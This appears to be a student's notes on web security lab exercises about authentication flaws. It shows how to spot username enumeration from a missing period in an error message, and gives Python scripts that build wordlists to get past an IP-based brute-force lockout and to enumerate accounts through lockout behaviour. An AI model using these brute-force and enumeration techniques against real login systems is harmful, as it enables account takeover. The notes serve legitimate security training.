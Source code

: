 # Authentication vulnerabilities

## Lab: Username enumeration via subtly different responses

Invalid username message: `Invalid username or password.`  
Valid username message: `Invalid username or password`(a dot missing)  

## Lab: Broken brute-force protection, IP block

Defense: limit the wrong attemps per IP, but reset conter when log in successfully.
Bypass: X times attemps and followed by a correct login.

```python
us_f = open("username", "r")
ps_f = open("password", "r")
passwords = ps_f.readlines()
ps_t = open("password_tmp", "w")
us_t = open("username_tmp", "w")
# wiener&peter are valid
for i in range(len(passwords)):
    if (i % 2 == 0):
        us_t.write("wiener\n")
        ps_t.write("peter\n")
    us_t.write("carlos\n")
    ps_t.write(passwords[i])
    print(passwords[i], end='')
```

## Lab: Username enumeration via account lock

```python
us_f = open("username", "r")
usernames = us_f.readlines()
ps_f = open("password", "r")
passwords = ps_f.readlines()
ps_t = open("password_tmp", "w")
us_t = open("username_tmp", "w")

for i in range(len(usernames)):
    us_t.write(usernames[i])
    ps_t.write(passwords[0])
    us_t.write(usernames[i])
    ps_t.write(passwords[1])
    us_t.write(usernames[i])
    ps_t.write(passwords[2])

ps_t.close()
us_t.close()
```

## Lab: Username enumeration via account lock


